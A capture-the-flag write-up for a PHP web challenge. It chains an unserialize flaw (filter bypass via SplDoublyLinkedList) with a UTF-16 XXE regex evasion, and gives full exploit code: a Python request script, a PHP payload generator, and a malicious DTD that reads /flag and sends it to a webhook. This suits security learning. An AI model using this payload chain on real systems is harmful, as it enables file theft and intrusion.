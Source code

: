 # WAFfle-y Order
Category: Web  
Level: Medium

## Code Analysis
Checking out the `index.php` we find the `PHPSESSID` cookie is serialized:
```php index.php
if  ( empty ( $_COOKIE [ 'PHPSESSID' ])) 
{ 
    $user  =  new  UserModel; 
    $user ->username = substr(uniqid( 'guest_' ),  0 ,  10 ); 
    setcookie( 
        'PHPSESSID' , 
        base64_encode(serialize( $user )),  
        time()+ 60 * 60 * 24 ,  
        '/' 
    ); 
} 
```

In `OrderController.php` we find the deserialization:
```php OrderController.php
$body = file_get_contents( 'php://input' );   
$cookie = base64_decode( $_COOKIE [ 'PHPSESSID' ]);   
safe_object( $cookie );   
$user = unserialize( $cookie );
```

Before the deserialization the cookie is sanitized by `safe_object` method. It checks for unsafe functions starting with `__`:
```php OrderController.php
function  safe_object ( $serialized_data ) 
{ 
    $matches  = []; 
    $num_matches  = preg_match_all( '/(^|;)O:\d+:"([^"]+)"/' ,  $serialized_data ,  $matches ); 

    for  ( $i  =  0 ;  $i  <  $num_matches ;  $i ++) { 
        $methods  = get_class_methods( $matches [ 2 ][ $i ]); 
        foreach  ( $methods  as  $method ) { 
            if  (preg_match( '/^__.*$/' ,  $method ) !=  0 ) { 
                die ( "Unsafe method: ${method}" ); 
            } 
        } 
    } 
} 
```

Having found the deserialization vulnerability, the next step is to find classes that can be exploited by the deserialization vulnerability.

There is a `XmlParserModel` class and the `__wakeup` method, which is called when the object is deserialized:
```php XmlParserModel.php
class  XmlParserModel 
{ 
    private  string  $data ; 
    private  array  $env ; 

    public  function  __construct ( $data ) 
    { 
        $this ->data =  $data ; 
    } 

    public  function  __wakeup ( ) 
    { 
        if  (preg_match_all( "/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im" ,  $this ->data)) 
        { 
            die ( 'Unsafe XML' ); 
        } 
        $env  = @simplexml_load_string( $this ->data,  'SimpleXMLElement' , LIBXML_NOENT); 

        if  (! $env )  
        { 
            die ( 'Malformed XML' ); 
        } 

        foreach  ( $env  as  $key  =>  $value ) 
        { 
            $_ENV [ $key ] = ( string ) $value ; 
        } 
    } 
} 
```

In sum, exist a `__wakeup` method in `XmlParserModel` and object variable `$data` with `simplexml_load_string` is used as `XML` parsing. When deserializing, the vulnerability can give `$data` variables arbitrary values that can be created by external entities `XXE`.

However, when `$data` is including external entities, it will be replaced by the regular expression `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im` matches, resulting in the call `die` and return `Unsafe XML`.
For this, you can `UTF-8` encoded `XML` document converted to `UTF-16` coding

## METHODOLGY
When making the call, the server checks if the cookie is “safe” with `safe_object()`. The method finds all matches of serialized objects and gets their respective class methods. If any of the class method contains `__` at the beginning (for magic methods exploits), the program dies.

Decoded cookie, the ErrorException contains magic method __construct:
O:14:"ErrorException":1:{s:8:"username";s:10:"guest_614c";}

To bypass this restriction, I studied this writeup:
https://github.com/MegadodoPublications/exploits/blob/master/composr.md#the-moderately-cool-way-that-works

Objects that implement the Serializable interface contain two methods serialize and unserialize. 
When serializing such an object a string of the following format will be returned: 
```
C:<number of characters in the class name>:"<class name>":<length of the output of the serialize method>:{<output of the serialize method>}.
```

Creating a serialized string in this format for an object of a class that doesn’t implement Serializable will work but the deserialized object will not have any class members set. It is thus not very useful for our purposes but it does lead the way to a final working exploit.
```
C:19:“SplDoublyLinkedList”:33:{i:0;:O:10:“HelloWorld”:0:{}:i:42;}
```

Notice the `:` before `O`. This prevents the regex from matching.
Part of the payload is going to look like this. `$pay` is our serialized payload object.

### XML WAF bypass
We will serialize XmlParserModel class. It has `__wakeup` magic method, and calls `simplexml_load_string()` which we will exploit. 
With this method, we can do XXE, but have to first bypass the regex check.
The LIBXML_NOENT option allows us to use XML entities.

To bypass the regex, I use UTF-16 encoding on the XML payload. 
The `simplexml_load_string()` does whats its told to do, and the regex just don’t know what’s going on and lets the payload through.

### DTD OOB exfiltration
Free from restraints, we can finally do the XXE with OOB DTD (inspiration). The challenge is internet-enabled. I’m going to fetch the DTD from ngrok which I tunnel to my machine where I host the DTD file. The DTD reads the flag file and make a call to my internet webhook, where a GET parameter contains the flag.

## Exploit
Lets create 3 files.
In `exploit.py` we generate php serialized payload and encode using base64. URL encoding is done inplicitly in requests. Insert payload into cookie and make the API call.
```python exploit.py
#!/usr/bin/python3

import requests
import subprocess
import base64

result = subprocess.run(['php', 'php_pay.php'], stdout=subprocess.PIPE)
rs = result.stdout 
pay = base64.b64encode(rs)
pay = pay.decode()

c = {'PHPSESSID': pay}
d = {"table_num":"1","food":"WAFfles"}

r = requests.post('http://206.189.124.249:32543/api/order', json=d, cookies=c)
print(r.content.decode())
```

In `php_pay.php` we create and xml paylod that will be interpreted by simplexml_load_string(). We tell it to fetch our malicious DTD and execute it. Then we convert the xml into UTF-16BE, serialize it and paste it into our predefined serialized structure.
```php php_pay.php
<?php

class XmlParserModel {
    public string $data;

    public function __construct($data)
    {
        $this->data = $data;
    }
}

/* UTF-16 encoding
 * ngrok to malicious.dtd
 */
$xml = '<?xml version="1.0" encoding="UTF-16"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1486-88-212-37-72.ngrok.io/malicious.dtd"> %xxe;]><env><debug>1</debug></env>';

// perform utf-16 conversion (big endian)
$xml = iconv('UTF-8', 'UTF-16BE', $xml);

$pay = serialize(new XmlParserModel($xml));

// 11 is number of chars in {} block apart from variable $pay
$l = 11 + strlen($pay);
echo 'C:19:"SplDoublyLinkedList":' . $l . ':{i:0;:' . $pay . ':i:42;}';
```

In `malicious.dtd` we tell the system to get contents of /flag and encode it using base64. We have to use base64 encoding because the file contains a newline at the end, and the xml entity doesn’t like that. We then instruct the system to make and http call to our webhook which contains the flag as a GET parameter.
```dtd malicious.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webhook.site/d1a3d99e-30da-4cb5-8e98-a4922d66f996/?x=%file;'>">
%eval;
%exfiltrate;
```

## FLAG
Now we just need to run `exploit.py` and get the flag in the webhook.
